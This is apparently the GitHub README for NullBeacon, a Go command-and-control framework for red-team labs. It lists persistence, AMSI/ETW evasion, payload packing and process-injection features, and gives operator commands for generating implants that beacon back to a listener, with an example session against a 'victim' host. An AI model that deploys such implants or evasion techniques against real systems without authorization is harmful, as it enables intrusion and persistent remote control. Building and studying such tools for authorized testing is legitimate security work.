


# NullBeacon C2

[](https://github.com/RodKast/NullBeacon/actions/workflows/go.yml)
[](https://golang.org)
[](https://github.com/RodKast/NullBeacon)
[](LICENSE)
[](https://github.com/RodKast/NullBeacon)

> **NullBeacon** is a modular, beacon-based Command & Control framework written in Go — built for authorized security research, CTF competitions, and home lab red team operations.

---

> ⚠️ **Authorized use only.** This tool is intended for legal security testing on systems you own or have explicit written permission to test. Misuse is strictly prohibited.

---

## Table of Contents

- [Overview](#overview)
- [Architecture](#architecture)
- [Features](#features)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Operator Reference](#operator-reference)
- [Roadmap](#roadmap)
- [Contributing](#contributing)
- [License](#license)

---

## Overview

NullBeacon implements a **beacon-based C2 model** — agents check in at randomized intervals (jittered sleep), receive queued tasks, execute them on the target, and return output to the operator. All communication is encrypted over TLS.

The framework is designed around the principle of **separation of concerns** — listeners, agents, tasks, and the operator shell are all independent components that can be extended without modifying core logic.

---

## Architecture



---

## Features

| Category | Details |
|---|---|
| **Transport** | TLS-only — all C2 traffic encrypted by default |
| **Listeners** | TLS and HTTPS, dynamic start/stop/list, context-based cancellation |
| **Agents** | UUID registration, returning beacon detection, last seen tracking |
| **Tasks** | Per-agent queue, delivered on next beacon, output returned automatically |
| **Generation** | Cross-compile for Linux/Windows, random codename filenames, debug symbols stripped |
| **Persistence** | Linux cron `@reboot` · Windows registry `Run` key |
| **Evasion** | AMSI patch · ETW stub (Windows) |
| **Packing** | AES-256-GCM + XOR encryption · per-agent key injected at build time |
| **Injection** | Process injection via VirtualAllocEx · WriteProcessMemory · CreateRemoteThread (Windows) |
| **OPSEC** | Sleep jitter (8–12s) · stripped symbols · TLS encryption |
| **Operator UX** | readline shell · colored output · agent notifications · help menu |

---

## Project Structure



---

## Installation

### Option 1 — Pre-compiled Binary (Recommended)

> Requires Linux and root access.

**1. Go to the [Releases page](https://github.com/RodKast/NullBeacon/releases/latest) and download the binary for your architecture:**
- `nullbeacon-linux-amd64` — standard x86_64 machines
- `nullbeacon-linux-arm64` — ARM machines (Kali on Apple Silicon, Raspberry Pi, etc.)

**2. Install using the provided script (recommended):**
```bash
# Download install.sh from the repo root, then:
sudo bash install.sh
```

**Or install manually:**
```bash
# Replace with your downloaded filename if using amd64
sudo mv nullbeacon-linux-arm64 /usr/local/bin/nullbeacon
sudo chmod +x /usr/local/bin/nullbeacon
```

**3. Start the teamserver:**
```bash
nullbeacon
```

**To uninstall:**
```bash
nullbeacon --uninstall
```

---

### Option 2 — Build from Source

> Requires Go 1.21+

**1. Clone the repo:**
```bash
git clone https://github.com/RodKast/NullBeacon.git
cd NullBeacon
```

**2. Build the teamserver binary:**
```bash
go mod tidy
go build -o nullbeacon ./cmd/teamserver
```

**3. Run the install script to install it system-wide:**
```bash
sudo bash install.sh
```

> `install.sh` moves the binary to `/usr/local/bin/nullbeacon` and makes it executable — after this you can type `nullbeacon` from anywhere.

**4. Start the teamserver:**
```bash
nullbeacon
```

**To uninstall:**
```bash
nullbeacon --uninstall
```

---

## Quick Start

**1. Start the teamserver**

```bash
go run ./cmd/teamserver
```

**2. Start a TLS listener**

```
nullbeacon> listen --lhost 0.0.0.0 --lport 8443
```

**3. Generate an agent**

```
nullbeacon> generate --os linux --arch amd64 --lhost <your_ip> --lport 8443
```

**4. Deploy and execute the agent on the target machine**

**5. Interact with the connected agent**

```
nullbeacon> list
nullbeacon> interact <agentID>
[agent:3f9a1b2c]> whoami
output: victim
```

> Logs are written to `teamserver.log`. Monitor with `tail -f teamserver.log`.

---

## Operator Reference

### Listeners

| Command | Description |
|---|---|
| `listen --lhost <host> --lport <port> --protocol tls\|https` | Start a TLS or HTTPS listener |
| `listeners` | List all active listeners |
| `stop <listenerID>` | Stop a listener |

### Agents

| Command | Description |
|---|---|
| `list` | List connected agents with last seen timestamp |
| `interact <agentID>` | Enter the agent shell |
| `remove <agentID>` | Remove a dead agent from the registry |
| `generate --os <os> --arch <arch> --lhost <ip> --lport <port>` | Cross-compile and generate an agent binary |

### Agent Shell

| Command | Description |
|---|---|
| `<command>` | Queue a shell command and wait for output |
| `tasks` | List all queued and completed tasks |
| `back` | Return to the main shell |

### General

| Command | Description |
|---|---|
| `help` | Display the help menu |
| `exit` | Exit NullBeacon |

---

## Example Session

```
nullbeacon> listen --lhost 0.0.0.0 --lport 8443
[+] started listener a1b2c3d4 on 0.0.0.0:8443

nullbeacon> generate --os linux --arch amd64 --lhost 10.0.0.1 --lport 8443
[*] generating linux/amd64 agent...
[+] agent saved: /home/operator/GHOST_COBRA.elf (ID: 3f9a1b2c)

nullbeacon> [+] new agent connected: victim@target-pc (3f9a1b2c)

nullbeacon> list
ID: 3f9a1b2c  victim@target-pc  10.0.0.5:51234  Last Seen: 2026-06-22 10:14:02

nullbeacon> interact 3f9a1b2c
[agent:3f9a1b2c]> whoami
[*] task queued — waiting for output...
output: victim

[agent:3f9a1b2c]> tasks
[3f9a1b2c] whoami → completed: victim

[agent:3f9a1b2c]> back

nullbeacon> stop a1b2c3d4
[+] stopped listener a1b2c3d4

nullbeacon> exit
```

---

## Roadmap

### Completed
- [x] Stage 1–7 — Core framework (teamserver, agent, beacon loop, task queue)
- [x] Stage 7.5–7.8 — Operator CLI, dynamic listeners, agent generation
- [x] Stage 7.9–7.12 — Reliability, UX, OPSEC hardening, TLS transport
- [x] Stage 8 — Persistence (Linux cron, Windows registry)
- [x] Stage 9 — Evasion (AMSI patch, ETW stub)
- [x] Stage 10 — Packing (AES-256 + XOR encryption, per-agent key injection)
- [x] Stage 11 — Transport hardening (HTTPS listener, `/beacon` and `/result` routes)
- [x] Stage 12 — Process injection (VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)

### Planned
- [ ] Stage 13 — Living off the Land (LOLBins)
- [ ] Stage 14 — Malleable C2 profiles
- [ ] Stage 15 — Syscall obfuscation
- [ ] Stage 16 — In-memory execution

### Released ✓
- [x] v0.1.2 — Linux amd64 + arm64 binaries, install script, uninstall command
- [x] CI/CD — lint, vulnerability scan, cross-platform build checks on every push

---

## Contributing

Contributions and feedback are welcome. Open an issue or pull request on GitHub.

---

## License

GPL v3 — see [LICENSE](LICENSE) for details.

---

## Disclaimer

NullBeacon is developed strictly for **educational purposes**, **CTF competitions**, and **authorized security research**. The authors assume no liability for misuse. Always obtain explicit written permission before testing against any system you do not own.
